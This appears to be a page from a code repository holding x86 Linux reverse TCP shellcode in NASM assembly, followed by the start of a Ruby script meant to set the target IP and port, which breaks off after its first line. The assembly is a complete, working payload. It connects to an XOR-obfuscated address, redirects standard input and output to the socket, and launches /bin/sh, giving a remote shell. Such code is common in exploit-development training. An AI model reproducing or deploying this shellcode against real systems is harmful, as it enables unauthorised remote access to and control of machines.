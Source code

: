 ```nasm
  AF_INET     equ 0x2
  SOCK_STREAM equ 0x1

_start:
  ; clear registers
  xor ebx, ebx
  xor ecx, ecx
  mul ecx

  ; socket(AF_INET, SOCK_STREAM, IPPROTO_IP)
  mov ax, SOCKET
  mov bl, AF_INET
  mov cl, SOCK_STREAM
  mov dl, 0x6
  int 0x80                      ; syscall socket(2)

  ; connect(sockfd, &sockaddr, 16)
  ; sockaddr = {AF_INET; PORT; IP_ADDR}
  xchg edi, eax                 ; edi = sockfd
  xor ecx, ecx                  ; clear ecx
  mul ecx                       ; clear eax and edx
  push ecx                      ; 0x0
  mov edx, XOR_IP               ; copy 0xfeffff80 to edx
  xor edx, 0xffffffff           ; edx xor 0xffffffff = 0x01000017f
  push edx                      ; push IP address to stack
  push word PORT                ; esp = 0xd204
  push word AF_INET             ; esp = 0xd2040002
  mov ecx, esp                  ; ecx = esp address
  push 0x10                     ; 16
  pop edx                       ; edx = 16
  mov ebx, edi                  ; ebx = sockfd
  mov ax, CONNECT               ; connect(2)
  int 0x80                      ; syscall connect(2)

  ; dup2(sockfd, fd)
  push 0x3                      ; prepare esp for ecx
  pop ecx                       ; ecx = 0x3
  mov ebx, edi                  ; ebx = sockfd
loop:
  mov al, DUP                   ; dup(2)
  dec ecx                       ; decrement ecx to coverl all 0x2, 0x1, and 0x0 fds
  int 0x80                      ; syscall dup(2)
  jne loop                      ; loop until ecx is zero

  ; execve('/bin//sh', NULL, NULL)
  xor ebx, ebx                  ; clear ebx
  mul ebx                       ; clear eax and edx
  push ebx                      ; push NULL
  push 0x68732f2f               ; "hs//"
  push 0x6e69622f               ; "nib/"
  mov ebx, esp                  ; ebx = esp address
  mov al, EXECVE                ; execve(2)
  int 0x80                      ; syscal execve(2)
```
## Dynamic Configuration
Using a simple Ruby script below, the `PORT` number and `IP Address` can be dynamically assigned:
```ruby
#!/usr/bin/env ruby
# Author: Jason Villaluna

require 'optparse'

```